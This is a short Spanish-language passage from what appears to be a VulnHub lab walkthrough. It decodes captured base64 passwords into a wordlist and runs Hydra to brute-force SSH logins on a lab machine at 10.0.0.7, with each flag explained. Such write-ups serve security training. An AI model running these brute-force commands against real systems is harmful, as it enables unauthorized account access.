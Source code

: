 # Fuerza Bruta (Hydra:SSH)

Lo que podemos hacer es usar `hydra` para hacer hacer fuerza bruta con esas credenciales al servicio `ssh` 

Primero guardamos en un archivo los ussers y en otro las passwords

Puedes aplicar este comando para automatizar el proceso de base64 en las passwords

```
for pass in c3VSSkFkR3dMcDhkeTNyRg== N1p3VjRxdGc0MmNtVVhHWA== WDdNUWtQM1cyOWZld0hkQw== REpjZVZ5OThXMjhZN3dMZw== Y3FObkJXQ0J5UzJEdUpTeQ==; do echo $pass | base64 -d; echo; done > passwords
```

>Asegurate de los nombres de los usuarios esten en minusculas

![](/assets/img/VulnHub/ICA/creds.png)

Uso de Hydra

```
hydra -L users -P passwords ssh://10.0.0.7
```

- `-L users`: Especifica un archivo llamado "users" que contiene una lista de nombres de usuario para probar en el ataque.
- `-P passwords`: Especifica un archivo llamado "passwords" que contiene una lista de contraseñas para probar en el ataque.
- `ssh://10.0.0.7`: Indica el protocolo SSH y la dirección IP objetivo del ataque.
